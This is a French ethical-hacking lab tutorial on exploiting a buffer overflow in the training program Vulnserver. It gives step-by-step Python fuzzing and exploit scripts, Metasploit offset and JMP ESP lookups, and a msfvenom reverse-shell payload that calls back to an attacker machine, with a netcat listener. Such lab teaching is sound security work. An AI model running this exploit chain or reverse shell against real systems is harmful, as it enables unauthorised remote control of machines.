

# TP Buffer Overflow Ethical Hacking

Dans ce TP, nous allons voir comment exploiter une faille de type buffer overflow pour prendre le contrôle d'un programme. Nous allons utiliser un programme vulnérable que nous allons exploiter pour exécuter du code arbitraire.

1. [Setup](#setup)
2. [Spiking (trouver la vulnérabilité)](#spiking)
3. [Fuzzing (créer un PoC)](#fuzzing)
4. [Chercher l'offset](#offset)
5. [Overwrite EIP](#eip)
6. [Trouver un espace mémoire exécutable](#memory)
7. [Trouver le bon module](#module)
8. [Shellcode](#shellcode)

## 1. Setup <a name="setup"></a>

On installe un certain nombre d'éléments sur la machine victime. 
Premièrement, Vulnserver, qu'on fera écouter sur le port 9999.  
[vulnserver](https://github.com/stephenbradshaw/vulnserver)  

Ensuite, on installe Immunity Debugger sur la machine attaquée.  
[Immunity Debugger](https://www.immunityinc.com/)

Cela fait, on démarre une kali sur laquelle tout se passera.

## 2. Spiking (trouver la vulnérabilité) <a name="spiking"></a>

On va commencer par chercher la vulnérablilité dans le programme. Pour cela, on va utiliser le script `generic_send_tcp` fourni dans kali.

```spk 
fichier stats.spk


s_readline();
s_string("STATS");
s_string_variable("0");
```

on envoie:

```bash
generic_send_tcp ip_windows 9999 stats.spk 0 0
```


On voit que le programme ne crash pas, essayons de modifier la commande.

```spk
fichier stats.spk

s_readline();
s_string("TRUN ");
s_string_variable("0");
```

```bash
generic_send_tcp ip_windows 9999 stats.spk 0 0
```

Parfait ! On s'aperçoit que le programme crashe. On a donc trouvé la vulnérabilité.


## 3. Fuzzing (créer un PoC) <a name="fuzzing"></a>

On va donc exploiter la faille déterminée précédemment. On va commencer par créer un script qui nous permettra de déterminer à combien de bytes le fuzzing a crash.

```py

import sys, socket
from time import sleep

buffer = "A" * 100

while True:
	try:
		s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
		s.connect(('10.0.2.15',9999))
		
		payload = "TRUN /.:/" + buffer

		s.send((payload.encode()))
		s.close()
		sleep(1)
		buffer = buffer + "A"*100

	except:
		print("Fuzzing crashed at %s bytes" % str(len(buffer)))
		sys.exit()

```

On lance le script et on attend que le programme crash.  
Ici, on voit que le programme crash à 2000 bytes.  


On retourne sur notre machine victime et on lance vulnserver attaché à immunity debugger afin de déterminer l'offset pour voir où ça crashe.


 

Pour nous, le programme crash à 2003 bytes et sur windows : [386F4337]. On va donc chercher l'offset en générant un pattern.


## 4. Chercher l'offset <a name="offset"></a>

on génère un pattern avec metasploit.

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
```

On a trouvé que le programme crash à 2000, on met donc un peu plus (3000) pour être sûr.

voilà le résultat :


On va donc envoyer ce pattern au programme vulnérable.

```py
import sys, socket
from time import sleep

offset = NotreOffset

try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('10.0.2.15',9999))
        payload = "TRUN /.:/" + offset
        s.send((payload.encode()))
        s.close()

except:
        print("Error connection to server")
        sys.exit()

```

On lance le script et on regarde où ça crash.  
on note: 2.py crash à 386F4337 -> EIP= 386F4337  

On retourne donc sur kali et on lance la commande suivante pour trouver l'offset.

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb 4200 -q 386F4337
```

On trouve donc que l'offset est de 2003. On va donc pouvoir passer à la suite.


## 5. Overwrite EIP <a name="eip"></a>

On va maintenant écrire un script qui va nous permettre de contrôler EIP.
    
```py
import sys, socket
from time import sleep

shellcode = "A" * 2003 + "B" * 4

try:
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(('10.0.2.15',9999))
		
	payload = "TRUN /.:/" + shellcode

	s.send((payload.encode()))
	s.close()

except:
	print("Error connection to server")
	sys.exit()
```

On lance le script et on regarde où Immunity Debugger nous dit que ça crash sur la machine victime.


On voit que EIP est bien écrasé par 4 B. On va donc pouvoir passer à la suite.

```bash
access violation 42424242= lettre B & EIP -> overwrite 42424242=BBBB
```

## 6. Trouver un espace mémoire exécutable <a name="memory"></a>

Pour ce faire, on va envoyer un payload de bad chars pour voir lesquels sont acceptés par le programme.  
Il suffit d'aller en récupérer un sur github.


```py
import sys, socket

badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
) 

shellcode = "A" * 2003 + "B" * 4 + badchars

try:
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(('10.0.2.15',9999))
		
	payload = "TRUN /.:/" + shellcode

	s.send((payload.encode('latin1')))
	s.close()

except:
	print("Error connection to server")
	sys.exit()
```

On lance le script et on regarde où ça crash sur la machine victime.  
On voit que les badchars sont bien passés.  
Sur immunity debugger, On clique sur ESP et on regarde les valeurs hexadécimales, qui nous emmène vers le check des bad chars.  


## 7. Trouver le bon module <a name="module"></a>

On va maintenant chercher le bon module pour notre exploit.  
On va utiliser mona.py pour cela.  

On installe donc mona sur immunity debugger.  
GitHub corelan mona -> download mona.py -> copier dans le dossier de plugins d'immunity debugger.

On lance mona et on tape la commande suivante pour trouver le module.

```bash
!mona modules
```


On s'aperçoit que vulnserver.exe est à false partout, donc non protégé. On va donc pouvoir passer à la suite.
Donc essfunc.dll est le module qu'on va utiliser.

Maintenant, on va chercher un JMP ESP pour pouvoir sauter sur notre shellcode.

Premièrement, il faut commencer par convertir l'adresse de retour en little endian.

```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
```

On tape donc `JMP ESP` pour trouver l'opcode. (FFE4) => `\xff\xe4`


Dans immunity debugger, on tape la commande suivante pour trouver le JMP ESP.

```bash
!mona find -s "\xff\xe4" -m essfunc.dll
```

(essfunc.dll est donc la fonction qui n'est pas protégée.)  
parmis toutes les adresse qui viennent de ressortir il y en aura forcément une qui va nous permettre de réaliser notre exploit et donc, par conséquent, de sauter sur notre shellcode.


On va donc prendre l'adresse `625011AF` pour notre exploit.


## 8. Shellcode <a name="shellcode"></a>

On va cibler et placer un breakpoint sur l'adresse visée.

```py
import sys, socket


shellcode = "A" * 2003 + "\xaf\x11\x50\x62"

try:
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(('10.0.2.15',9999))
		
	
	s.send(("TRUN /.:/" + shellcode))
	s.close()

except:
	print("Error connection to server")
	sys.exit()
```

dans immunity debugger, on lance le programme et on regarde où ça crash.  
C'est à partir du breakpoint (placé sur l'adresse visée) qu'on va pouvoir placer notre shellcode.

pour l'occasion, on va mettre en placer un reverse shellcode qui écoutera sur notre machine en 4444 avec msfvenom.
On génère donc le payload : 

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.4 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"
```

On copie le shellcode généré dans notre script python.


On crée donc un autre script, nous permettant d'injecter notre payload.

```py
#!/usr/bin/python

import sys, socket

#ici on met l'adresse qu'on vise ex: 625011af

overflow= NotrePayloadMsfVenom

shellcode = "A" * 2003 + "\xaf\x11\x50\x62" + "\x90" * 32 + overflow

try:
	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(('10.0.2.15',9999))
		
	
	s.send(("TRUN /.:/" + shellcode).encode('latin1'))
	s.close()

except Exception as e:
	print("Error connection to server")
	print(e)
	sys.exit()

```

On n'oublie pas de lancer un netcat sur notre machine pour écouter sur le port 4444.

```bash
nc -nlvp 4444
```

On lance le script et on regarde sur notre machine si on a un reverse shell.


On a donc réussi à prendre le contrôle du programme vulnérable.



# Conclusion

On a donc vu comment exploiter une faille de type buffer overflow pour prendre le contrôle d'un programme. On a utilisé un programme vulnérable que nous avons exploité pour exécuter du code arbitraire.
